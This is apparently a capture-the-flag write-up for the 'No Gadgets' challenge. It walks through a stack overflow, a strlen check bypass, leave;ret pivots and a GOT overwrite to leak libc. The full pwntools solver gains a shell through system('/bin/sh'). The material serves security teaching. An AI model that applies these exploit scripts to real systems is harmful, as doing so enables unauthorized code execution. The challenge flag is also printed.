




 <font size='10'>No Gadgets</font>

29<sup>th</sup> March 2024

Prepared By: `sasha-999`

Challenge Author(s): `sasha-999`

Difficulty: <font color='orange'>Medium</font>

Flag: `HTB{wh0_n3eD5_rD1_wH3n_Y0u_h@v3_rBp!!!}`

<br><br>
<br><br>

# Synopsis

The challenge is a classic buffer overflow, with the twist that commonly used gadgets like `pop rdi ; ret` are missing. The user will instead utilise gadgets controlling `rbp` and an `fgets` gadget found in `main` to gain arbitrary writes into the binary's writable section. Using these, the user will overwrite the `strlen@GOT` to `puts@GOT`, so that a libc leak can be gained by leaking `GOT`. With the libc leak, the user can then write a classic `ret2libc` rop chain to gain RCE.

## Description

In a world of mass shortages, even gadgets have gone missing. The remaining ones are protected by the gloating MEGAMIND, a once-sentient AI trapped in what remains of the NSA's nuclear bunker. Retrieving these gadgets is a top priority, but by no means easy. Much rests on what you can get done here, hacker. One could say too much.

## Skills Required

- Python
- Researching Skills
- C
- Know how to use common RE tools (i.e. Ghidra, IDA)

## Skills Learned

- Understanding of `leave ; ret` and stack frames
- Alternative approaches to ROP besides `pop rdi`

# Analysis

## Analyzing the source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define BANNER \
"———————————————————————————————\n" \
"⠀⣞⢽⢪⢣⢣⢣⢫⡺⡵⣝⡮⣗⢷⢽⢽⢽⣮⡷⡽⣜⣜⢮⢺⣜⢷⢽⢝⡽⣝\n" \
"⠸⡸⠜⠕⠕⠁⢁⢇⢏⢽⢺⣪⡳⡝⣎⣏⢯⢞⡿⣟⣷⣳⢯⡷⣽⢽⢯⣳⣫⠇\n" \
"⠀⠀⢀⢀⢄⢬⢪⡪⡎⣆⡈⠚⠜⠕⠇⠗⠝⢕⢯⢫⣞⣯⣿⣻⡽⣏⢗⣗⠏⠀\n" \
"⠀⠪⡪⡪⣪⢪⢺⢸⢢⢓⢆⢤⢀⠀⠀⠀⠀⠈⢊⢞⡾⣿⡯⣏⢮⠷⠁⠀⠀ \n" \
"⠀⠀⠀⠈⠊⠆⡃⠕⢕⢇⢇⢇⢇⢇⢏⢎⢎⢆⢄⠀⢑⣽⣿⢝⠲⠉⠀⠀⠀⠀\n" \
"⠀⠀⠀⠀⠀⡿⠂⠠⠀⡇⢇⠕⢈⣀⠀⠁⠡⠣⡣⡫⣂⣿⠯⢪⠰⠂⠀⠀⠀⠀\n" \
"⠀⠀⠀⠀⡦⡙⡂⢀⢤⢣⠣⡈⣾⡃⠠⠄⠀⡄⢱⣌⣶⢏⢊⠂⠀⠀⠀⠀⠀⠀\n" \
"⠀⠀⠀⠀⢝⡲⣜⡮⡏⢎⢌⢂⠙⠢⠐⢀⢘⢵⣽⣿⡿⠁⠁⠀⠀⠀⠀⠀⠀⠀\n" \
"⠀⠀⠀⠀⠨⣺⡺⡕⡕⡱⡑⡆⡕⡅⡕⡜⡼⢽⡻⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n" \
"⠀⠀⠀⠀⣼⣳⣫⣾⣵⣗⡵⡱⡡⢣⢑⢕⢜⢕⡝⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n" \
"⠀⠀⠀⣴⣿⣾⣿⣿⣿⡿⡽⡑⢌⠪⡢⡣⣣⡟⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n" \
"⠀⠀⠀⡟⡾⣿⢿⢿⢵⣽⣾⣼⣘⢸⢸⣞⡟⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n" \
"⠀⠀⠀⠀⠁⠇⠡⠩⡫⢿⣝⡻⡮⣒⢽⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n" \
"——————————No gadgets?——————————\n"

void setup() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
}

int main() {
	char buf[0x80];
	setup();
	puts(BANNER);
	puts("Welcome to No Gadgets, the ropping experience with absolutely no gadgets!");
	printf("Data: ");
	fgets(buf, 0x1337, stdin);
	if (strlen(buf) > sizeof(buf)) {
		puts("Woah buddy, you've entered so much data that you've reached the point of no return!");
		exit(EXIT_FAILURE);
	} else {
		puts("Pathetic, 'tis but a scratch!");
	}
	return 0;
}

```

The application is quite simple, it just prompts the user for input, and reads too much data onto the stack leading to a classic buffer overflow. It then checks the string length to check for a buffer overflow, and if an overflow is detected it `exit`s so that `main` doesn't return. Otherwise it returns normally.

## Protections

Running `checksec` yields:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
```
So we're dealing with pretty standard protections, minus `PIE`.
The lack of canary and `PIE` will make our overflow feasible, and no `NX` means no shellcode (oh well, who needs shellcode anyways).

# Solution

## Exploitation

### Bypass `strlen` check

The first problem we face is the buffer overflow check, however fortunately for us this is a flimsy check.
The string length is the number of bytes before a terminating null byte, however `fgets` doesn't stop us from writing null bytes of our own, so we could place a null byte at the beginning of the buffer to force `strlen` to return a value less than `0x80`, hence bypassing the check.

## Finding gadgets

```
Gadgets information
============================================================
0x0000000000401077 : add al, 0 ; add byte ptr [rax], al ; jmp 0x401020
0x0000000000401057 : add al, byte ptr [rax] ; add byte ptr [rax], al ; jmp 0x401020
0x00000000004010eb : add bh, bh ; loopne 0x401155 ; nop ; ret
0x0000000000401037 : add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x401020
0x0000000000401270 : add byte ptr [rax], al ; add byte ptr [rax], al ; leave ; ret
0x00000000004010b8 : add byte ptr [rax], al ; add byte ptr [rax], al ; nop dword ptr [rax] ; ret
0x0000000000401271 : add byte ptr [rax], al ; add cl, cl ; ret
0x000000000040115a : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401039 : add byte ptr [rax], al ; jmp 0x401020
0x0000000000401272 : add byte ptr [rax], al ; leave ; ret
0x00000000004010ba : add byte ptr [rax], al ; nop dword ptr [rax] ; ret
0x0000000000401034 : add byte ptr [rax], al ; push 0 ; jmp 0x401020
0x0000000000401044 : add byte ptr [rax], al ; push 1 ; jmp 0x401020
0x0000000000401054 : add byte ptr [rax], al ; push 2 ; jmp 0x401020
0x0000000000401064 : add byte ptr [rax], al ; push 3 ; jmp 0x401020
0x0000000000401074 : add byte ptr [rax], al ; push 4 ; jmp 0x401020
0x0000000000401084 : add byte ptr [rax], al ; push 5 ; jmp 0x401020
0x0000000000401009 : add byte ptr [rax], al ; test rax, rax ; je 0x401012 ; call rax
0x000000000040115b : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000401273 : add cl, cl ; ret
0x00000000004010ea : add dil, dil ; loopne 0x401155 ; nop ; ret
0x0000000000401047 : add dword ptr [rax], eax ; add byte ptr [rax], al ; jmp 0x401020
0x000000000040115c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401157 : add eax, 0x2f0b ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401067 : add eax, dword ptr [rax] ; add byte ptr [rax], al ; jmp 0x401020
0x0000000000401013 : add esp, 8 ; ret
0x0000000000401012 : add rsp, 8 ; ret
0x00000000004011d3 : call qword ptr [rax + 0x4855c35d]
0x0000000000401010 : call rax
0x0000000000401173 : cli ; jmp 0x401100
0x0000000000401170 : endbr64 ; jmp 0x401100
0x000000000040100e : je 0x401012 ; call rax
0x00000000004010e5 : je 0x4010f0 ; mov edi, 0x404040 ; jmp rax
0x0000000000401127 : je 0x401130 ; mov edi, 0x404040 ; jmp rax
0x000000000040103b : jmp 0x401020
0x0000000000401174 : jmp 0x401100
0x00000000004010ec : jmp rax
0x0000000000401274 : leave ; ret
0x00000000004010ed : loopne 0x401155 ; nop ; ret
0x0000000000401156 : mov byte ptr [rip + 0x2f0b], 1 ; pop rbp ; ret
0x0000000000401062 : mov dl, 0x2f ; add byte ptr [rax], al ; push 3 ; jmp 0x401020
0x000000000040126f : mov eax, 0 ; leave ; ret
0x00000000004010e7 : mov edi, 0x404040 ; jmp rax
0x0000000000401052 : mov edx, 0x6800002f ; add al, byte ptr [rax] ; add byte ptr [rax], al ; jmp 0x401020
0x0000000000401082 : movabs byte ptr [0x56800002f], al ; jmp 0x401020
0x00000000004011d4 : nop ; pop rbp ; ret
0x00000000004010ef : nop ; ret
0x000000000040116c : nop dword ptr [rax] ; endbr64 ; jmp 0x401100
0x00000000004010bc : nop dword ptr [rax] ; ret
0x00000000004010e6 : or dword ptr [rdi + 0x404040], edi ; jmp rax
0x0000000000401158 : or ebp, dword ptr [rdi] ; add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x000000000040115d : pop rbp ; ret
0x0000000000401036 : push 0 ; jmp 0x401020
0x0000000000401046 : push 1 ; jmp 0x401020
0x0000000000401056 : push 2 ; jmp 0x401020
0x0000000000401066 : push 3 ; jmp 0x401020
0x0000000000401076 : push 4 ; jmp 0x401020
0x0000000000401086 : push 5 ; jmp 0x401020
0x0000000000401016 : ret
0x0000000000401042 : ret 0x2f
0x0000000000401022 : retf 0x2f
0x000000000040100d : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x0000000000401279 : sub esp, 8 ; add rsp, 8 ; ret
0x0000000000401278 : sub rsp, 8 ; add rsp, 8 ; ret
0x000000000040100c : test eax, eax ; je 0x401012 ; call rax
0x00000000004010e3 : test eax, eax ; je 0x4010f0 ; mov edi, 0x404040 ; jmp rax
0x0000000000401125 : test eax, eax ; je 0x401130 ; mov edi, 0x404040 ; jmp rax
0x000000000040100b : test rax, rax ; je 0x401012 ; call rax

Unique gadgets found: 68
```

Due to the program being compiled to run on glibc versions 2.34 and above, the `__libc_csu_init` function is no longer present, and so most of the useful `pop` gadgets are gone, like `pop rdi ; ret`.
This stops us using the classic `ret2plt` attack, where we can call `puts` on some address containing a libc address, to get a leak.
Instead we need to leak libc using ROP in a different way, and for that we need other gadgets.

Most of the gadgets found by `ROPgadget` aren't very useful, except for `leave ; ret`.
This is a gadget found at the end of some functions, like `main` in this case, which aids in switching between stack frames.
It does this by restoring the old `rbp` of the calling function (saved base pointer), moving `rsp` up and returning.
`leave` is effectively
```asm
mov rsp, rbp
pop rbp
```
`rbp` here points to the saved base pointer, so moving it into `rsp` allows it to then be popped into `rbp`. Then the return address is stored directly afterwards, so then the `ret` returns to the previous code.

Example (some function called by main):
```
        |------------------------|
        |     return address     |
        |------------------------|
  ----> |   saved base pointer   |
  |     |------------------------|
  |     |                        |
  |     |     char buf[0x80]     |
  |     |                        |
  |     |------------------------|
  |     |     return address     |  <--- [rbp+8]
  |     |------------------------|
  ------|   saved base pointer   |  <--- [rbp]
        |------------------------|
        |                        |
        |     local variables    |
        |                        |
        |------------------------|  <--- [rsp]
```

After `leave ; ret`:
```

        |------------------------|
        |     return address     |  <--- [rbp+8]
        |------------------------|
  ----> |   saved base pointer   |  <--- [rbp]
  |     |------------------------|
  |     |                        |
  |     |     char buf[0x80]     |
  |     |                        |
  |     |------------------------|  <--- [rsp]
  |     |     return address     |
  |     |------------------------|
  ------|   saved base pointer   |
        |------------------------|
        |                        |
        |     local variables    |
        |                        |
        |------------------------|
```

### Rough exploit plan

`rbp` is used to keep track of where the variables stored in a stack frame are. You can see this in action when looking at the disassembly.
The following is from the call to `fgets`.



The address of the buffer is relative to `rbp` (as would other variables, if there were others).

In our buffer overflow, we don't only overwrite the return address, but also the saved base pointer, which would then get loaded into `rbp`, due to `leave`.
So with our overflow, we can control `rbp`, and we also have the above gadget which writes arbitrary data to the buffer at `[rbp-0x80]`, so combining these theoretically grants an arbitrary write.

But what to overwrite? Remember we don't have a leak, so we're limited to the binary's memory.
Recall that the binary has `Partial RELRO`, which means the `GOT` is writable!

An appealing target is `strlen@GOT`, because it's a function that takes one argument: our buffer! So we could either:
* overwrite `strlen@GOT -> puts@PLT` and point `buf` to a `GOT` entry
* overwrite `strlen@GOT -> printf@PLT` and point `buf` to a format string

Once we have a libc leak, the ret2libc should be trivial, because libc has a `pop rdi` gadget.

## Getting arbitrary writes


So to get an arbitrary write onto `strlen@GOT`, we'll need to set `rbp` to `&strlen@GOT + 0x80` (since the `fgets` gadget uses `[rbp-0x80]`), and `rip` to the `fgets` gadget.
This is easily done in the first overflow, but then what?
Well we'll run through the rest of the main function and hit `leave ; ret` again. Running through what `leave` does, we see that it copies `rbp` to `rsp`, then pops `rbp` and `rip`.
Since `rbp` is `0x80` bytes after our data input, we can use the overflow to control `rbp` and `rip` again! (and we can do this for any `rbp`)

However we run into a problem when going with this approach.



If we wrote to the earliest possible address `0x404000`, then `rbp = 0x404080`.
But the entries for `stdin`, `stdout`, `stderr` are between our write and `rbp`, and since we don't have a libc leak, we can't overwrite these without corrupting them and causing a crash.

This is why we need to make another write to `0x404080` first, to fill in a fake saved `rbp` and `rip`.

A naive approach to implement the above could look as follows:
```py
#!/usr/bin/python3
from pwn import *

e = ELF("./vuln")
libc = ELF("./libc.so.6")
p = e.process()

leave_ret = e.sym.main+157
fgets_gadget = e.sym.main+68

overflow  = b"\x00".ljust(0x80, b"A")
overflow += p64(0x404080+0x80)
overflow += p64(fgets_gadget)
p.sendline(overflow)

gdb.attach(p)
fake_rbp_rip  = p64(0xdead) + p64(0xbeef)     # blank for now!
fake_rbp_rip  = fake_rbp_rip.ljust(0x80, b"A")
fake_rbp_rip += p64(0x404000+0x80)
fake_rbp_rip += p64(fgets_gadget)
p.sendline(fake_rbp_rip)

overwrite  = p64(e.plt.puts + 6)
overwrite += p64(e.plt.puts)        # strlen@GOT
overwrite += p64(e.plt.printf + 6)
overwrite += p64(e.plt.fgets + 6)

p.sendline(overwrite)
p.interactive()
```
This will fail for another reason (which isn't due to my incompetence (hopefully!)), which is easier to see in gdb.

Here we get to the point where we're about to overwrite the `GOT` with fgets, but see something interesting. Since we've done multiple `leave`s, we've stack pivoted to the writable region. This on its own isn't a huge deal, but since it's so close to all the important addresses in the `GOT`, there's a good chance that the stack usage for the call to `fgets` will clobber them.


And clobber them it does!



So we need to be more careful about where `rsp` is.
Fortunately most functions used in `main` don't use that much stack space (except for `printf`, which we can skip), so as long as `rsp` is further along in the writable region, its stack usage won't clobber anything.
We can achieve this by using an extra `leave ; ret`.

Recall that after `leave ; ret`, `rsp` points to directly after the saved rbp and rip (due to popping), and since we want `rsp` at a higher address, we can place our own saved `rbp` and `rip` pairs at high addresses. Then for the initial `leave ; ret` (at the end of main), we set `rbp` to point to that pair, and `rip` to `leave ; ret`. That way we control `rbp` and `rip`, while also having `rsp` be far enough to prevent clobbering!

### Getting libc leak

```py
#!/usr/bin/python3
from pwn import *

e = ELF("./vuln")
libc = ELF("./libc.so.6")
p = e.process()

leave_ret = e.sym.main+157
fgets_gadget = e.sym.main+68

high_addr = 0x404800

overflow  = b"\x00".ljust(0x80, b"A")
overflow += p64(high_addr+0x80)
overflow += p64(fgets_gadget)
p.sendlineafter(b"Data: ", overflow)
p.recvline()


overflow  = b"\x00".ljust(0x80, b"A")
overflow += p64(0x404080+0x80)
overflow += p64(fgets_gadget)
# rbp,rip pair at high address
overflow += p64(0x404000+0x80)
overflow += p64(fgets_gadget)
p.sendline(overflow)
p.recvline()

gdb.attach(p)
fake_rbp_rip  = p64(0xdead) + p64(0xbeef)     # blank for now!
fake_rbp_rip  = fake_rbp_rip.ljust(0x80, b"A")
fake_rbp_rip += p64(high_addr+0x90)
fake_rbp_rip += p64(leave_ret)
p.sendline(fake_rbp_rip)
p.recvline()

overwrite  = p64(e.plt.puts + 6)
overwrite += p64(e.plt.puts)        # strlen@GOT
overwrite += p64(e.plt.printf + 6)
overwrite += p64(e.plt.fgets + 6)

p.sendline(overwrite)

libc_leak = u64(p.recv(6) + b"\x00\x00")
log.info(f"puts: {hex(libc_leak)}")

libc.address = libc_leak - libc.sym.puts
log.info(f"libc: {hex(libc.address)}")

p.interactive()
```

Applying this gives us the script above, which successfully leaks libc base. We overwrite `strlen@GOT` to `puts@PLT` (not `printf@PLT` because it uses a lot of stack space), and after we overwrite `GOT`, `strlen` gets called. The way it's set up is that `buf -> puts@GOT`, which is now `puts@PLT + 6`. But when `strlen` gets called, `puts` is called, which resolves `puts@GOT` in time for `buf` to now point to `puts@LIBC`, giving us a leak!

And we don't have to worry about the return value being greater than `0x80`, because `puts` returns the number of bytes outputted, which would be `7` (`6` for the address, `1` for the newline).

## Getting a shell

From here getting a shell is trivial. Since we have libc, we can easily find all the gadgets we need, so all we need is to write another rop chain which calls `system("/bin/sh")`.
In my rop chain I used `system`, which also uses a lot of stack space, so I made `rsp` point to a further up location again, but you could just use `execv` and not face this problem.

## Solver

```py
#!/usr/bin/python3
from pwn import *

e = ELF("./vuln")
libc = ELF("./libc.so.6")
p = e.process()

def send(data, prompt=False, leak=False):
    ret = None
    if prompt:
        p.recvuntil(b"Data: ")
    assert b"\n" not in data
    p.sendline(data)
    if leak:
        ret = p.recv(6)
        p.recv(1)   # newline
    p.recvline()
    return ret

got = 0x404000
new_rsp = got+0x800     # sufficiently large to not interfere with GOT
addr_switch = new_rsp + 0x100
# address of final rop chain
# also sufficiently large for system
addr_rop = new_rsp + 0x400

leave_ret = e.sym.main+157
fgets_gadget = e.sym.main+68    # fgets(rbp-0x80, 0x80, stdin) ; strlen(rbp-0x80) ; leave ; ret

# the idea of "switching" is 2 consecutive "leave ; ret" gadgets
# such that rbp is controlled to a value we want
# as our gets_gadget and fgets_gadget relies on rbp
# AND also ensuring rsp is a sufficiently large address
# such that the stack activity in the writable section doesn't interfere with GOT
# or cause a crash

# the first "leave ; ret" sets rbp to point to a pair of "saved rbp | return address"
# stored at `addr_switchX`, and call it new_rbp | new_ret
# and triggers a second "leave ; ret" to then pop new_rbp into rbp, and return to new_ret
# the 2nd "leave ; ret" also sets rsp to `addr_switchX`
# which for our purposes is a sufficiently large address
rbp_rip = lambda rbp, rip: p64(rbp) + p64(rip)
switch = lambda i: rbp_rip(addr_switch+0x10*(i-1), leave_ret)

# setup pivot to writable region
overflow  = b"\x00".ljust(0x80, b"A")
overflow += p64(new_rsp)	    # saved rbp
overflow += p64(fgets_gadget)	# return address
send(overflow, prompt=True)

# rsp -> [stack]
# rbp -> new_rsp
# fgets(rbp-0x80) -> fgets(new_rsp-0x80)

# overflow
data  = b"\x00".ljust(0x80, b"A")
data += rbp_rip(got+0x100, fgets_gadget)
# pad upto addr_switch
data += b"B" * (addr_switch - (new_rsp-0x80+len(data)))
# fgets(got) for a GOT overwrite
data += rbp_rip(got+0x80, fgets_gadget)	        # switch1
# fgets() for final ROP payload
data += rbp_rip(addr_rop, fgets_gadget)	        # switch2
send(data)

# rsp -> new_rsp+0x10 (+0x10 due to "pop rbp" and "ret")
# rbp -> got+0x100
# fgets(rbp-0x80) -> fgets(got+0x80)

# got+0x80
fake_rbp_rip  = switch(2)
# overflow to do switch1
fake_rbp_rip  = fake_rbp_rip.ljust(0x80, b"A")
fake_rbp_rip += switch(1)
send(fake_rbp_rip)

# overwrite GOT
# change strlen@GOT -> puts@PLT
# so that strlen(buf) leaks puts@GOT
overwrite  = p64(e.plt.puts + 6)
overwrite += p64(e.plt.puts)        # strlen@GOT
overwrite += p64(e.plt.printf + 6)
overwrite += p64(e.plt.fgets + 6)

# after overwriting strlen@GOT -> puts@PLT
# the GOT buffer is printed back to us due to strlen(rbp-0x80)
# at the start of the buffer is puts@GOT
# (which is resolved by the time of the call to puts)
# so &puts is leaked
libc_leak = send(overwrite, leak=True)

libc_leak = u64(libc_leak + b"\x00\x00")
log.info(f"puts: {hex(libc_leak)}")

libc.address = libc_leak - libc.sym.puts
log.info(f"libc: {hex(libc.address)}")

# switch(2) is done immediately afterwards
# to then write data to addr_rop

# time for a classic ret2libc
# (addr_rop is sufficiently large enough for system's stack)

pop_rdi = libc.address + 0x2a3e5
ret = pop_rdi + 1

payload  = b"\x00".ljust(0x80, b"A")
payload += p64(0)
payload += p64(pop_rdi) + p64(next(libc.search(b"/bin/sh\x00")))
payload += p64(ret)
payload += p64(libc.sym.system)

send(payload)
p.interactive()
```
